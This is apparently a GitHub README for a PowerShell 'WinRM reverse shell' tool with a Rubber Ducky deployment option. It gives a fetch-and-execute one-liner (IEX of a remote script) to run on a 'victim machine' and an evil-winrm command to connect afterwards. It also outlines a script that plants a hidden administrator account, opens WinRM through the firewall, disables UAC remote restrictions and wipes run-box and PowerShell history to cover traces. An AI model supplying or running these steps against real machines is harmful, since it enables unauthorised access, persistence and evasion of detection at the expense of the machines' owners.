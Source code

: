 ![New Project (5)](https://github.com/VBV11/WinRM-Reverse-Shell/assets/104235290/1c55668c-e91f-4d84-974b-9c0b415d366f)



# WinRM Reverse Shell

## Introduction
This repository provides a PowerShell script to establish a reverse shell connection via Windows Remote Management (WinRM) on Windows 10/11. Additionally it includes a Rubber Ducky payload for alternative deployment.

## Dependencies
- Both attacker and victim must be on the same network for the connection to be established successfully.
- Ensure you have administrative access to the target machine.

## Usage
1. Edit `WinRM.ps1`:
   - Set your desired username and password by modifying the variables `$Username` and `$Password`.
2. Run the following PowerShell one-liner on the victim machine with administrative privileges:
   ```powershell
   IEX (IWR "https://raw.githubusercontent.com/VBV11/WinRM-Reverse-Shell/main/WinRM.ps1")

## Use Evil-WinRM to connect to the victim machine:
evil-winrm -i YOUR.IP.ADDRESS -u Admin -p Password1

# ![Screenshot_2024-02-25_13-40-13 (1)](https://github.com/VBV11/WinRM-Reverse-Shell/assets/104235290/446782ec-8fcf-46ac-adf1-10f54711bf73)


## Rubber Ducky Payload
The repository includes a Rubber Ducky payload for alternative deployment.
Edit the payload speed and URL as needed.

https://github.com/VBV11/WinRM-Reverse-Shell/assets/104235290/fa37438d-69cc-4969-8866-dc02a3437dec

## Additional Information
The created user account can be viewed in User Accounts.
To view the account, type netplwiz in the Run box.

+ Account information may also be visible on the login screen.

![image](https://github.com/VBV11/WinRM-Reverse-Shell/assets/104235290/8ee30db3-aee3-4720-9d75-228fd26a6aec)


![image](https://github.com/VBV11/WinRM-Reverse-Shell/assets/104235290/2d0a0ada-3810-4cc3-9e8a-338c4ef3079d)

## Script Breakdown
### The PowerShell script is divided into several parts:

#### Function to hide a window.
#### Creation of a new local user account.
#### Addition of the new user to the local Administrators group.
#### Enabling of Windows Remote Management (WinRM).
#### Adding a firewall rule to allow WinRM traffic.
#### Disabling UAC remote restrictions.
#### Deletion of run box history and PowerShell history.

## Credits
### Inspired by TW-D.
